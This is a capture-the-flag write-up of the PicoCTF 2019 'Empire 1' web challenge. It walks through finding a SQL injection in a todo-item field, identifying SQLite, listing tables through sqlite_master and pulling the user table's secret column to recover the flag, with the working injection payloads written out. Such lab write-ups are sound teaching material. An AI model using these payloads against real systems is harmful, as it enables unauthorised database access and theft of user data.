




PicoCTF 2019 - Empire 1
Description
Psst, Agent 513, now that you’re an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/12234/ (link) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:12234
Hints:
- Pay attention to the feedback you get
- There is very limited filtering in place - this to stop you from breaking the challenge for yourself, not for you to bypass.
- The database gets reverted every 2 hours if you do break it, just come back later
Solution
After browsing around on https://2019shell1.picoctf.com/problem/12234/, we have the following options:
- register an account
- login
I couldn’t trigger anything in these fields, moving on! Once we are connected, we have 3 pages:
- https://2019shell1.picoctf.com/problem/12234/employee
- https://2019shell1.picoctf.com/problem/12234/add_item
- https://2019shell1.picoctf.com/problem/12234/list_items
The employee page just displays an array of ID / username / name, not very interesting…

But add_item and list_item have more potential! We have a text field to add a todo item, and we can view the result on the list item page.


I tried JS/HTML execution in the TODO field, but it didn’t trigger :(

But! Putting a quote trigger a:
Internal Server Error
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
=> So, it’s definitely a SQLi vulnerability! Probably an INSERT or an UPDATE query, not a SELECT, maybe something like:
INSERT INTO notes (id,value) VALUES(1, 'my new todo');
I tried a bunch of stuff that just returned “Internal Server Error”:
, 'test')'test', 'test')'test'); --'a' + 'b'')-- -'--'a' + 'b''a' || 'b'
I isolated the following that didn’t crash and whose output is different:
-
+ '-' + => + ' + -
|| '-' ||=>|| ' || -
' + 'test' + '123' +'=>123 -
'|| 'a' || 'b' ||'=>ab
The most significant is the last one, where the query was executed, so we can try injection of the form: '|| <SQL stuff> ||'
Next, I tried to identify the database behind by querying the version:
'||SELECT @@VERSION||'for MSSQL and MySQL'||SELECT * FROM v$version||'for Oracle'||SELECT version()||'for PostgreSQL'||SELECT sqlite_version()||'for SQLite
All of these triggered an Internal Server Error, so my conclusion was either I missed something or they have a custom database implemented. Given how popular this challenge is, I’m very inclined to believe that something went wrong on my side…
And… lots of digging on the internets later, I learned about the concept of subquery. Basically, a query in a query in a SQL statement. Let’s look at an example from the MariaDB knowledge base:
SELECT * FROM table1 WHERE col1 IN (SELECT col1 FROM table2);
SELECT * FROM table1 WHERE col1 INis the main query(SELECT col1 FROM table2)is the subquery, which is enclosed into parenthesis.
The subquery is executed first and the results are substituted in the main query.
SELECT * FROM table1 WHERE col1 IN result1;
Then the main query is executed, just like any other SQL statements.
And that’s exactly what we should use to execute our version query:
'||(select sqlite_version())||'
And there it is! We have confirmation that it’s a SQLite database! And we can correct what we said earlier, injection are of the form: || ( <SQL stuff> ) ||.
Okay, next step: is there a way to retrieve the tables in that database? From the SQLite FAQ:
(7) How do I list all tables/indices contained in an SQLite database
If you are running the sqlite3 command-line access program you can type “.tables” to get a list of all tables. Or you can type “.schema” to see the complete database schema including all tables and indices. Either of these commands can be followed by a LIKE pattern that will restrict the tables that are displayed.
From within a C/C++ program (or a script using Tcl/Ruby/Perl/Python bindings) you can get access to table and index names by doing a SELECT on a special table named “SQLITE_MASTER”. Every SQLite database has an SQLITE_MASTER table that defines the schema for the database. The SQLITE_MASTER table looks like this:
CREATE TABLE sqlite_master ( type TEXT, name TEXT, tbl_name TEXT, rootpage INTEGER, sql TEXT );For tables, the type field will always be ‘table’ and the name field will be the name of the table. So to get a list of all tables in the database, use the following SELECT command:
SELECT name FROM sqlite_master WHERE type='table' ORDER BY name;
Let’s try it:
'||(SELECT name FROM sqlite_master WHERE type='table' ORDER BY name)||'
Ah. It might be that we are only getting the first result if the query returns several results… To list all results with only one line of output, we can ask for result 0, then result 1, then result 2:
'||(SELECT name FROM sqlite_master WHERE type='table' LIMIT 0,1)||'
user
'||(SELECT name FROM sqlite_master WHERE type='table' LIMIT 1,1)||'
todo
'||(SELECT name FROM sqlite_master WHERE type='table' LIMIT 2,1)||'
None
So, we have 2 tables: user and todo, let’s go explore each of them:
'||(SELECT sql FROM sqlite_master WHERE type='table' LIMIT 0,1)||'
CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) )
'||(SELECT sql FROM sqlite_master WHERE type='table' LIMIT 1,1)||'
CREATE TABLE todo ( id INTEGER NOT NULL, item VARCHAR(256), user_id INTEGER, PRIMARY KEY (id), FOREIGN KEY(user_id) REFERENCES user (id) )
That secret column in the user table looks interesting!
'||(SELECT secret FROM user LIMIT 0,1)||'
Likes Oreos.
'||(SELECT secret FROM user LIMIT 1,1)||'
Know it all.
Huh. Not quite what I expected… StackOverflow to the rescue, SQLite it not listed but its syntax is identical to MySQL:
'||(SELECT GROUP_CONCAT(secret) FROM user)||'
Flag: picoCTF{wh00t_it_a_sql_inject46527b2c}
Links:
- https://www.sqlinjection.net/database-fingerprinting/
- https://sqlwiki.netspi.com/dbmsIdentification
- https://dl.packetstormsecurity.net/papers/database/SQLi_Insert.pdf
- https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection.html
- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#StringConcat